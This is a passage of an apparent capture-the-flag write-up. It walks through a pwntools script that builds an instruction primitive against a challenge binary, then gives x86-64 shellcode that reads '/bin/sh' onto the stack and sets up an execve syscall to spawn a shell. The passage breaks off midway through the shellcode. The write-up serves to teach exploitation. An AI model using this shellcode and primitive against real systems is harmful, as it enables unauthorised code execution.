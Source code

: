 ```python
def primitive(r, code):
    code = b"%d" % code
    print(f"[+] sending primitive.. {code}" )
    r.sendline(b"moveax")
    r.sendline(b"65769616")
    r.recvuntil(b">")
    r.sendline(b"jmp")
    r.sendline(b"-4")
    r.recvuntil(b">")
    r.sendline(b"moveax")
    r.sendline(code)
    r.recvuntil(b">")
```

You can see that all it does is communicate with the executable in the same way we wouldve done on the CLI, we've just automated it a bit.

To test this code we could try to call it with argument set to `0xCCCCCCCC`, attach our GDB and see if we hit 4 breakpoints again as expected.

### Writing the Shellcode

We now need to come up with shellcode that spawns a shell. There are a million different ways you could write this code but I decided to go with a syscall to `execve()`.

`execve()` expect a string as the first argument, which is the path to the executable, for a shell we need a string in memory containing "/bin/sh" somewhere. My approach was to first call the `read()` syscall that reads data from stdin and writes it to the stack (`RSP` register) and then call `execve()` with the address of the stack that now should contain "/bin/sh".

For reference, syscalls are made by first setting up a few registers and then executing the syscall instruction.

```asm
%rax: 
execve  = 59 
read    = 0 

%rdi:
execve  = *filename 
read    = fd 
%rsi:
execve  = argv[]
read    = *buf
%rdx: 
execve  = argp[] 
read    = count 
```

The general idea for the shellcode:

```asm
xor rdx,rdx                 ; set rdx to 0
add rdx,40                  ; set rdx to 40
nop; mov rsi, rsp           ; set rsi to stack 
nop; xor rdi, rdi           ; set rdi to 0
xor eax,eax; syscall        ; set rax to 0 and syscall 

# we now send a string like /bin/sh to the socket so 
it gets stored on the stack
we can now proceed to make a syscall to execve 

xor rdx,rdx                 ; set rdx to 0 
nop;mov rdi, rsi            ; move rsi( our /bin/sh string) to rdi 
xor rsi, rsi                ; set rsi to 0
nop;xor rcx,rcx             ; set rcx to 0
add rcx, 59                 ; set rcx to 59
```